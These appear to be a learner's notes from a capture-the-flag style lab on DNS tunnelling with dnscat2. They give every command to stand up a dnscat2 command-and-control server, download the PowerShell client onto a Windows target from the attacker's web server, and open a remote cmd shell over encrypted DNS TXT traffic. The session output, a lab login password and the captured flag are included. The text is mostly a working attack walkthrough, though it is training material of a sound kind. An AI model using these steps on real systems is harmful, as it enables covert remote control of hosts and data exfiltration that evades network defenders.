 # DNS Tunneling with Dnscat2

Uses an encrypted Command-&-Control (C2) to send data inside TXT records within DNS protocol.

1) Cloning dnscat2 and Setting Up the Server

git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
sudo bundle install

2) Starting the dnscat2 server

sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

3) Cloning dnscat2-powershell to the Attack Host
git clone https://github.com/lukebaggett/dnscat2-powershell.git

-> dnscat2.ps1 on target

4) Importing dnscat2.ps1
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

5) Confirming Session Establishment

New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>

6) Listing dnscat2 Options

dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* windows
...

7) Interacting with the Established Session
dnscat2> window -i 1
C:\Windows\system32>
exec (OFFICEMANAGER) 1>

## LAB

git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
sudo bundle install

sudo ruby dnscat2.rb --dns host=10.10.15.158,port=53,domain=inlanefreight.local --no-cache

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=a4e567d918fc3bb64fc63cd5a34f1a1a


cd dnscat2-powershell/
git clone https://github.com/lukebaggett/dnscat2-powershell.git

md5sum dnscat2.ps1
d48ec7f31621ce0115d50237c398cd7f  dnscat2.ps1

python3 -m http.server


cat dnscat2-powershell/dnscat2.ps1 |base64 -w 0 > dnscat2.ps1.b64.txt

pip3 install uploadserver

python3 -m uploadserver

xfreerdp /u:htb-student /v:$TARGET
HTB_@cademy_stdnt!

$PSVersionTable

(New-Object Net.WebClient).DownloadFile('http://10.10.15.158:8000/dnscat2.ps1','dnscat2.ps1')
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.15.158 -Domain inlanefreight.local -PreSharedSecret a4e567d918fc3bb64fc63cd5a34f1a1a -Exec cmd

dnscat2> New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
window -i 1

C:\Windows\system32>
exec (OFFICEMANAGER) 1> 

dir C:\Users\htb-student\Documents\
type C:\Users\htb-student\Documents\flag.txt
AC@tinth3Tunnel
